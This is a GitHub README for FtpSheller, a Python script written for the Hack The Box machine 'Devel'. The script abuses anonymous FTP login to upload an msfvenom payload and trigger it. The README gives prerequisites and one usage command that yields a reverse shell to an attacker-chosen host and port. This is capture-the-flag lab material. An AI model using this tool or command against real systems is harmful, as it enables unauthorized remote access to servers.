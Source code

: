 # FtpSheller

**What is this?**

I made this script for fun for getting a shell on one of the machines at www.hackthebox.eu called Devel.
It'll check for anonymous login on the FTP server. If that's allowed it'll craft a payload and store it on the FTP server.
Then it'll trigger the payload, returning a shell to you.

There's still a bunch of stuff I'd like to do, so consider this a beta release.

Hit me up on NetSecFocus' slack if you have any suggestions! I'd love to hear them.

**Prerequisites:**

- Python 2.7
- Curl
- Msfvenom


**How to:**

Download nc.py and FtpSheller.py.
Run it by specifying the RHOST, LHOST, LPORT and PayloadType, e.g.:

python FtpSheller.py --rhost 10.10.10.5 --lhost *your IP* --lport 4444 --payloadType aspx

If all goes well you'll be given a reverse shell!

![FtpSheller](https://imgur.com/a/3oHpp)
